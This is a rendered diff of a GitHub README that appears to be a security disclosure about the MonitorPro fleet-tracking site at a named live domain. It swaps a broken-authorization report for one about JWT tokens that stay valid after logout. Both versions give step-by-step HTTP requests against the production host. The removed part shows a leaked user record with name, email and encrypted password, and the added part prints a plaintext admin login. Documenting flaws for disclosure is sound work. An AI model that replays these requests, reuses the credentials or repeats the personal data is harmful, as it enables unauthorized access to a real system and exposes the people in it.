

Before and after one commit to K2uci/OnlyCubans, a Markdown page: Readme.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Readme.md
+++ b/Readme.md
@@ -6,80 +6,68 @@
 
 ## Description
 
-## Summary
-The MonitorPro application at https://almaviva.monitorpro.ai/ suffers from Broken Function Level Authorization (BFLA) allowing users with the "operator" role to access administrative endpoints that should be restricted to admin users only. This enables lower-privileged users to view sensitive user data including encrypted passwords and system role configurations.
+## Vulnerability Summary
+The MonitorPro application fails to properly invalidate JWT tokens after a user attempts to logout. The logout endpoint returns an HTTP 500 error, and the JWT tokens remain valid and functional, allowing continued access to protected API endpoints.
 
-## Vulnerability Details
+## Affected Application
+- **Application**: MonitorPro (Fleet Tracking Platform)
+- **URL**: https://almaviva.monitorpro.ai/
+- **Affected Endpoint**: POST /api/users/logout
+- **Vulnerable Component**: JWT Token Management / Session Invalidation
 
-**Vulnerability Type:** Broken Function Level Authorization (BFLA) / OWASP API5:2023
-**CVSS v3.1 Score:** 7.5 (High)
-**CVSS Vector:** AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N
+## Technical Details
 
-### Affected Endpoints
+### The Issue
+1. The logout endpoint (`POST /api/users/logout`) returns HTTP 500 error with message: `"Argument passed in must be a single String of 12 bytes or a string of 24 hex characters"`
+2. No server-side token blacklist or revocation mechanism exists
+3. JWT tokens continue to function normally after logout attempt
+4. All 4 token types issued remain valid until their natural expiration
 
-1. **GET /api/users/V2/maintenance/all** - User management endpoint that returns all user data including encrypted passwords
-2. **GET /api/roles** - Role definitions endpoint that exposes the entire permission structure
-
-### Affected Roles
-- **operator** role (lower privilege) can access admin-only data
-- Tested with user: jchacon@intrustsecurity.co
+### Token Lifetimes
+- `token`: 4 minutes (240 seconds)
+- `tokenCv`: 20 minutes (1200 seconds)
+- `tokenCentralApp`: 20 minutes (1200 seconds)
+- `refreshtoken`: 5 minutes (300 seconds)
 
 ## Proof of Concept
 
-### Step 1: Login as Operator
-```http
+### Step 1: Login and obtain JWT token
+```
 POST /api/users/login HTTP/1.1
 Host: almaviva.monitorpro.ai
 Content-Type: application/json
 
-{"email":"jchacon@intrustsecurity.co","password":"test123"}
+{"email":"admin","password":"1futuro2@26"}
 ```
 
-**Response confirms operator role:**
+Response contains JWT token (HTTP 200):
 ```json
 {
-  "user": {
-    "role": {
-      "name": "operator"
-    }
-  }
+  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
+  ...
 }
 ```
 
-### Step 2: Access User Management Endpoint (Should be Admin-Only)
-```http
+### Step 2: Verify token works (before logout)
+```
 GET /api/users/V2/maintenance/all?page=1&pageSize=10 HTTP/1.1
 Host: almaviva.monitorpro.ai
-Authorization: Bearer [operator_jwt_token]
+Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
 ```
+**Result**: HTTP 200 - Returns 9 users successfully
 
-**Response (HTTP 200 - VULNERABLE):**
-```json
-{
-  "total": 5,
-  "total_pages": 1,
-  "current_page": 1,
-  "data": [
-    {
-      "_id": "69738ea41303ec0014f7e14b",
-      "username": "LUIS MOZO",
-      "email": "lmozo@almaviva.com.co",
-      "password": "U2FsdGVkX19TVLMeXmUp9NieWRfr18a86yh0oPUgttE=",
-      "role": {"name": "admin"}
-    },
-    ...
-  ]
-}
+### Step 3: Attempt logout
 ```
+POST /api/users/logout HTTP/1.1
+Host: almaviva.monitorpro.ai
+Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
+Content-Type: application/json
+```
+**Result**: HTTP 500 - `{"errorMsg":"Argument passed in must be a single String of 12 bytes or a string of 24 hex characters"}`
 
-The operator can see:
-- 5 user accounts (including admin users)
-- Encrypted passwords (CryptoJS AES format)
-- User IDs, emails, and role assignments
-
-### Step 3: Access Roles Endpoint (Should be Admin-Only)
-```http
-GET /api/roles HTTP/1.1
+### Step 4: Verify token STILL works after logout
+```
+GET /api/users/V2/maintenance/all?page=1&pageSize=10 HTTP/1.1
 Host: almaviva.monitorpro.ai
-Authorization: Bearer [operator_jwt_token]
+Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
 ```
````
Also changed, not shown: other parts of Readme.md (+30 -38 lines).
